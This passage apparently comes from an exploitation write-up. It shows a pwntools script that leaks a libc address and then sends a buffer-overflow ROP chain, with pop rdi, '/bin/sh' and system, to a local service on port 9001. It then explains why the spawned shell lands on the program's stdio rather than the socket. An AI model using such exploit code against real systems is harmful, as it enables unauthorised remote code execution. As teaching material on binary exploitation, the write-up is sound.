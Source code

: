 ```python
leak = (u64(p1.recv(6).ljust(8,b'\0')))
libc_base = leak -0x1ecbe0
clog("leak : ",hex(leak))
clog("libc_leak : ",hex(libc_base))



p1.close()
p.close()
poprsi =libc_base+0x000000000002601f
poprdi=libc_base+0x0000000000023b6a
p = remote("127.0.0.1",9001)


p.sendline(b"VIEW jomama 1.0\r")

clog("ret",hex(poprdi+1))

p1=b"A"*(2079+0x30)

p1+=p64(poprdi) # pop rdi ret 
p1+=p64(libc_base+0x1b45bd) # binsh 
p1+=p64(libc_base+libc.symbols['system']) # system
p1+=b"\r\n\r\n"
p.sendline(p1)


p.interactive()

```
Our exploit runs successfully but we dont get a shell ???

![houston](/images/houston-we-have-a-problem-tom-hanks.gif)


well whats happening is when we run `system("/bin/sh")` the shell spawns on the programs file descriptors STDIO(0) and STDOUT(1) . which we dont control we have our own file descriptor for each socket . Unlike our program we only have one read-write fd for our socket .
